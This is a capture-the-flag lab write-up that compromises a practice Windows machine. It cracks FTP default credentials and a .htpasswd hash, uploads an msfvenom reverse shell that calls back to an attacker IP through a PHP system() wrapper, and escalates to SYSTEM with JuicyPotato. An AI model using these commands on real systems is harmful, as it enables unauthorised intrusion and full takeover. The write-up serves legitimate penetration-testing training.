


# Recon
## Nmap
```
nmap -sC -sV -Pn 192.168.229.46
```


Then, I will run a full port nmap scan
```
nmap -sC -sV -Pn --open -p- 192.168.229.46
```


The full port scan reveals two extra ports, 242 and 3145.

## FTP - Port 21
From the nmap results, we can see that anonymous ftp login is allowed.
- use `anonymous` as the user and no password
- after logging in, check what users are available by looking into the accounts directory
```
ftp 192.168.229.46
```


### Ncrack
Ncrack is a powerful open-source network authentication cracking tool. It's designed to help assess and strengthen the security of networks by identifying weak credentials. 
Ncrack supports various protocols such as SSH, RDP, FTP, Telnet, HTTP(S), and more, making it versatile for testing a wide range of systems. With its robust and flexible features, Ncrack is the perfect
option to try and crack any default passwords now that we have a list of usernames.

I created a usernames.txt file with the following entries
```
admin
backup
Offsec
```

Then, running the following command reveals valid default credentials
```
ncrack -U usernames.txt -P /SecLists-master/Passwords/Default-Credentials/default-passwords.txt ./passwords.txt
```


Login to the ftp console as admin
- then, use the command `mget *` in ftp to download all the files for the admin user
- there are three files, `.htaccess`, `.htpasswd` and `index.php`
- looking at all the files, `.htpasswd` has a password for the user offsec that we can crack using john
```
john --wordlist=/usr/share/wordlists/rockyou.txt .htpasswd
```

John successfully cracked the password for user offsec which is `elite`
- the password does not work for ftp login using username offsec, so we can try this credential for other services

## HTTP - Port 242
We can use the credentials `offsec:elite` to authenticate to the http
- using these credentials, we can run a gobuster scan with the `-U` and `-P` flags
```
gobuster dir -u http://192.168.229.46:242/ -w /usr/share/dirb/wordlists/common.txt -k -x .txt,.php -U offsec -P elite
```

The gobuster results show status code 200 for `index.php`, however, there aren't any other interesting results.

# Exploitation
We will be able to access files uploaded through admin user FTP. We can upload a reverse shell through FTP and then access it from the 
authenticated HTTP server

1. Create a msfvenom reverse shell for a Windows machine
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.230 LPORT=1234 -f exe > revshell.exe
```

2. Create a php file to run the reverse shell, otherwise, going to `/revshell.exe` will simply download the file
```
<?php
$exec = system('revshell.exe', $val)
?>
```

3. Now, log in as admin through FTP and use `mput` to upload the reverse shell and the run.php


4. Start a nc listener with `nc -lnvp 1234`

5. Go to url `http://192.168.229.46/run.php` to trigger the php script that will run the reverse shell.


We are able to get a foothold on the system as user livda\apache.

## Privilege Escalation
We can enumerate the system for useful information
```
whoami /all
```


Also, get more detailed information on the system


From the enumeration we can see that
- the `SeImpersonatePrivilege` is enabled
- the machine is running a Windows 2008 Server x86

We can use Juicy Potato found [here](https://github.com/ivanitlearning/Juicy-Potato-x86/releases)
- JuicyPotato requires a class ID (CLSID) which is unique to the operating system
- the website [here](https://ohpe.it/juicy-potato/CLSID/) helps us choose a CLSID, use the CLSID for Windows Server 2008 in this case

1. Clone the JuicyPotato.exe file and upload to the machine using admin FTP
2. Create another msfvenom reverse shell to use for juicy potato
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.230 LPORT=1234 -f exe > revshell2.exe
```
3. Upload the `revshell2.exe` using admin FTP
4. Run JuicyPotato using the first CLSID found on the website
```
Juicy.Potato.x86.exe -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} -l 1337 -p "C:\wamp\www\revshell2.exe"
```


The command works and we have a shell as NT Authority\System.

# Summary
Reconnaissance:
- Conducted Nmap scan to identify open ports and services
- Discovered an FTP server with anonymous login enabled
- Used Ncrack to verify default credentials, gaining access to the FTP console
- Obtained hashed passwords from the FTP server

Initial Access:
- Cracked hashed passwords using John the Ripper
- Accessed an HTTP service using compromised credentials
- Utilized Gobuster to enumerate directories, discovering a potential upload functionality

Exploitation:
- Uploaded a crafted reverse shell through FTP
- Triggered the execution of the reverse shell via a PHP script on the HTTP server, gaining initial access to the system

Privilege Escalation:
- Leveraged the SeImpersonatePrivilege privilege and system information obtained through enumeration
- Exploited a known CLSID vulnerability using Juicy Potato
- Executed Juicy Potato with the appropriate CLSID, resulting in escalated privileges to NT Authority\System

Join me for the next machine soon for more exciting challenges and security insights!

+20 points